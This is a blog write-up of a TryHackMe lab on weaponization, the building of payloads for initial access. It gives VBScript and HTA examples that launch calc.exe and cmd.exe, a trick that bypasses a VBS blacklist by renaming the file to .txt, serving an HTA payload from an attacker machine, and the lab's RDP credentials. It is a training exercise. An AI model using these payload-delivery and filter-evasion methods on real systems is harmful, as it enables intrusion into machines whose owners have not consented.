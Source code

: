 ```yaml
---
title:  "THM: Weaponization"
date:   2024-04-24 19:00:00 +0000
categories: [Red]
tags: [Red]
---
```


![img](/assets/img/w.png)  



---
Ref: 

- [THM: Red Team Recon](https://tryhackme.com/r/room/weaponization)

- [Red Team Toolkit](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)

---

Task 1 - Introduction
---

In this room, we will be discussing different techniques used for weaponization.

![img](/assets/img/w01.png)

What is Weaponization

Weaponization is the second stage of the Cyber Kill Chain model. In this stage, the attacker generates and develops their own malicious code using deliverable payloads such as word documents, PDFs, etc. [1]. The weaponization stage aims to use the malicious weapon to exploit the target machine and gain initial access.

Most organizations have Windows OS running, which is going to be a likely target. An organization's environment policy often blocks downloading and executing .exe files to avoid security violations. Therefore, red teamers rely upon building custom payloads sent via various channels such as phishing campaigns, social engineering, browser or software exploitation, USB, or web methods.

The following graph is an example of weaponization, where a crafted custom PDF or Microsoft Office document is used to deliver a malicious payload. The custom payload is configured to connect back to the command and control environment of the red team infrastructure.


![img](/assets/img/w02.png)

For more information about red team toolkits, please visit the following: a GitHub repository that has it all, including initial access, payload development, delivery methods, and others.

Most organizations block or monitor the execution of .exe files within their controlled environment. For that reason, red teamers rely on executing payloads using other techniques, such as built-in windows scripting technologies. Therefore, this task focuses on various popular and effective scripting techniques, including:

- The Windows Script Host (WSH)
- An HTML Application (HTA)
- Visual Basic Applications (VBA)
- PowerShell (PSH)

---



Task 2 - Deploy the Windows Machine
---


In order to follow up along with the task content and apply what is given in this room, you need to start the attached machine by using the green Start Machine button in this task, and wait a few minutes for it to boot up. To access the attached machine, you can either use the split in browser view or connect through the RDP.

If you prefer to connect through the Remote Desktop Protocol (RDP), first make sure you are connected to the VPN. Then an RDP client is required to connect to the attached Windows 10 machine. You can connect using the xfreerdp tool, which is available on the TryHackMe AttackBox.

To connect  via xfreerdp use the following command:

Terminal
```
user@machine$ xfreerdp /v:MACHINE_IP /u:thm /p:TryHackM3
```

The username: thm  and the password: TryHackM3 


---

Task 3 - Windows Scripting Host - WSH
---

Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit [here](https://en.wikipedia.org/wiki/VBScript). It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

Now let's write a simple VBScript code to create a windows message box that shows the Welcome to THM message. Make sure to save the following code into a file, for example, hello.vbs.

```
Dim message 
message = "Welcome to THM"
MsgBox message
```
In the first line, we declared the message variable using Dim. Then we store a string value of Welcome to THM in the message variable. In the next line, we use the MsgBox function to show the content of the variable. For more information about the MsgBox function, please visit [here](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/scripting-articles/sfw6660x(v=vs.84)?redirectedfrom=MSDN). Then, we use wscript to run and execute the content of hello.vbs. As a result, A Windows message will pop up with the Welcome to THM message.

![img](/assets/img/w03.png)

Now let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
We create an object of the WScript library using CreateObject to call the execution payload. Then, we utilize the Run method to execute the payload. For this task, we will run the Windows calculator calc.exe. 

To execute the vbs file, we can run it using the wscript as follows, 

Terminal
```
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
```

We can also run it via cscript as follows,

Terminal
```
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs
```
As a result, the Windows calculator will appear on the Desktop.


![img](/assets/img/w04.png)


Another trick. If the VBS files are blacklisted, then we can rename the file to .txt file and run it using wscript as follows,

Terminal
```
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

The result will be as exact as executing the vbs files, which run the calc.exe binary.


![img](/assets/img/w05.png)

---


Task 4 - An HTML Application - HTA
---


### An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

Terminal
```
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.


![img](/assets/img/w06.png)

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.


![img](/assets/img/w07.png)


